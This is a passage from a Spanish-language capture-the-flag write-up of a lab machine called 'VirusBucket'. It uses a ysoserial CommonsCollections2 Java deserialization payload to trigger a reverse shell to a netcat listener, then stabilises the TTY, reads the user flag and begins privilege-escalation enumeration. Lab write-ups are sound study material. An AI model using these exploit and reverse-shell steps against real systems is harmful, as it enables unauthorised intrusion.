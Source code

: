 Y otro para que lo ejecute

```null
java -jar ysoserial-master.jar CommonsCollections2 'bash /dev/shm/shell' > shell2.session
```

Gano acceso al sistema

```null
 nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.9] from (UNKNOWN) [10.10.10.205] 33052
bash: cannot set terminal process group (1041): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@VirusBucket:/opt/tomcat$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
tomcat@VirusBucket:/opt/tomcat$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
tomcat@VirusBucket:/opt/tomcat$ export TERM=xterm
tomcat@VirusBucket:/opt/tomcat$ export SHELL=bash
tomcat@VirusBucket:/opt/tomcat$ stty rows 55 columns 209
```

Estoy dentro de la máquina víctima

```null
tomcat@VirusBucket:/opt/tomcat$ whoami
tomcat
tomcat@VirusBucket:/opt/tomcat$ hostname -I
10.10.10.205 172.18.0.1 172.17.0.1 dead:beef::250:56ff:feb9:6881 
```

Puedo ver la primera flag

```null
tomcat@VirusBucket:~$ cat user.txt 
1766a655f449e1c4c916fe0c7f683a4e
```

# Escalada

No puedo listar procesos de otros usuarios porque el ```hidepid``` está habilitado

```null
tomcat@VirusBucket:/$ mount | grep proc
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime,hidepid=2)
systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=28,pgrp=1,timeout=0,minproto=5,maxproto=5,direct,pipe_ino=15951)
```

Listo los puertos abiertos internamente

```null
tomcat@VirusBucket:/$ ss -nltp
State                Recv-Q               Send-Q                                  Local Address:Port                              Peer Address:Port               Process                                        
LISTEN               0                    4096                                        127.0.0.1:44901                                  0.0.0.0:*                                                                 
LISTEN               0                    4096                                    127.0.0.53%lo:53                                     0.0.0.0:*                                                                 
LISTEN               0                    128                                           0.0.0.0:22                                     0.0.0.0:*                                                                 
```